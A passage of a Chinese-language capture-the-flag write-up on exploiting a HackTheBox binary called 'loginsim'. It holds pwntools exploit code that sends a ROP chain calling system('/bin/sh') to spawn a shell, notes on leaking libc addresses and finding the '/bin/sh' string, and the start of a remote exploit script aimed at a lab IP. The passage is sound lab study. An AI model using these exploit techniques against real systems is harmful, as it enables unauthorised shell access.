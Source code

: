 ```python
        #debug()
        p.recv(timeout=4)
        p.sendline('1')
        p.sendline(str(0x80))#'z'*0x60+'j'*(0x100-0x20))
        p.recv()
        p.sendline('w'*(0x40)+chr(0x20)*0x78+p64((rdi_ret))+p64(bin_sh_addr)+p64(rsi_ret)+p64(0)+p64(ret)+p64(gets_addr)+p64((rdi_ret))+p64(bin_sh_addr)+p64(rsi_ret)+p64(0)+p64(ret)+p64(gets_addr)+p64((rdi_ret))+p64(bin_sh_addr)+p64(rsi_ret)+p64(0)+p64(ret)+p64(puts_addr)+p64((rdi_ret))+p64(bin_sh_addr)+p64(rsi_ret)+p64(0)+p64(ret)+p64(system_addr))
        sleep(0.5)
        p.sendline('/bin/sh\x00')
        p.interactive()    

```

## remote_problem

看上面最初exp时间，可以看到我很久就在本地解决出来但是什么最近才打通远程呢？

根本原因是netwrok，与htb靶机交换时间太长。这是一个非常影响体验感的问题。在远程中出错也无法即时排查。(ps:应该给个dockerfile)

其次，我leak数据过多了，不仅要leak libc地址，还有leak elf的地址。我在想只需要libc地址。同时，由于不了解自身本地环境与远程机的寄存器和栈环境，是否完全相同也无法轻易使用 one_gadget 。但查阅资料发现libc中自身存在一个`/bin/sh`后门字符串。我们可以通过libc-database来查询得到这个地址，当然也可以用ROPgadget来找到这个地址。

```
ROPgadget --binary ./glibc/libc.so.6  --string '/bin/sh'
Strings information
============================================================
0x00000000001b75aa : /bin/sh

```

于是我用我写的工具libcfind([LibcSearcher_plus](https://github.com/lexsd6/LibcSearcher_plus))来自动查询libc-database，验证本地与远程libc环境是否相同。

同时，我们用libc中自身存在一个`/bin/sh`后门字符串，就不需要leak 程序的基地址只需要libc的基础地址。

由于就算开了PIE与NX，一个libc函数在x64在一位一定是`\x7f`,末位一定是固定的。这样我们就可以少leak俩个位。加上不leak 程序的基地址。我们现在只需要leak 4位数大幅减少leak时间。让我们有更多机会试one_gadget 和system地址对齐的错。

## remote_exp

```python
#!/usr/bin/env python
# -*- encoding: utf-8 -*-



from pwn import * 
from libcfind import *

local_mote=1
elf='./loginsim'
e=ELF(elf)
#context.log_level = 'debug'
#context.arch=e.arch
ip_port=['167.99.205.117',30301]

debug=lambda : gdb.attach(p) if local_mote==1 else None




def add(mun,text):
    p.sendline('1')
    #sleep(0.2)
```